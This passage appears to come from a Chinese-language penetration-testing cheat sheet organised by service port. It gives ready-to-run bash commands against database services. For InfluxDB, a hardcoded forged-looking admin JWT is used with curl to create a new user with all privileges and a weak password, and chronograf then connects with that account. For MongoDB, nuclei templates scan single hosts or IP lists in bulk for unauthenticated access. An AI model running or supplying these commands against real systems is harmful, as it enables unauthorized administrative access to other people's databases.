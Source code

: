 ```bash

AUTH="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s"
USNM=influx
PSWD=123456
BODY=q="CREATE USER \"$USNM\" with PASSWORD '$PSWD' WITH ALL PRIVILEGES;"

curl -X POST -H $AUTH -d $BODY $URL/query
  # {"results":[{"statement_id":0}]}
# https://github.com/influxdata/chronograf
chronograf --influxdb-url="$URL" --influxdb-username="$USNM" --influxdb-password="$PSWD"
```

## 27017 MongoDB

```bash
# 未授权访问
# 批量检测未授权访问
# https://github.com/projectdiscovery/nuclei
nuclei -t ~/nuclei-templates/network/misconfig/mongodb-unauth.yaml -target $IP
nuclei -t ~/nuclei-templates/network/misconfig/mongodb-unauth.yaml -l ip.txt
```
